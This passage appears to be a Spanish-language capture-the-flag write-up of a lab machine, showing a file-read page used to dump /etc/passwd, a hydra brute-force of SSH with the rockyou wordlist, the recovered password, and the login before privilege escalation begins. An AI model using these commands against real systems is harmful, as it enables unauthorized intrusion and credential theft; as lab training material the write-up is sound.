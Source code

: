 Si ahora ingresmoa esto en al url si que tenemos capacidad de verlo
```bash
http://192.168.100.35/bGVlX2FyY2hpdm9zCg==.php
```

Tenemos una web que nos permite leer archivos, aprovechamos para ver el archivo **( /etc/passwd )**
```bash
root:x:0:0:root:/root:/bin/bash
tyuiop:x:1000:1000:tyuiop:/home/tyuiop:/bin/bash
superadministrator:x:1001:1001:,,,:/home/superadministrator:/bin/bash
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahroa que tenemos posibles usuarios validos para el sistema, crearemos un diccionario de usaurios para realizar fuerza bruta por **ssh** aprovechando que estan expuestos
```bash
# users.txt
tyuiop
superadministrator
root
```
### Ejecucion del Ataque
```bash
# Comandos para explotación
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f -t 4 ssh://192.168.100.35
```

Contrasena encontrada:
```bash
[STATUS] 69.00 tries/min, 69 tries in 00:01h, 14344330 to do in 3464:49h, 4 active
[22][ssh] host: 192.168.100.35   login: superadministrator   password: princesa
```

### Intrusion
Nos conectamos por **ssh**
```bash
# Reverse shell o acceso inicial
ssh superadministrator@192.168.100.35 # ( princesa )
```

---

## Escalada de Privilegios

###### Usuario `[ Superadministrator ]`:
LIstando los archivos de este usuario:
```bash
cat recordatorio.txt 
Me han dicho que existe una pagina llamada gtfobins muy util para ctfs, la dejo aquí apuntada para recordarlo mas adelante.
```
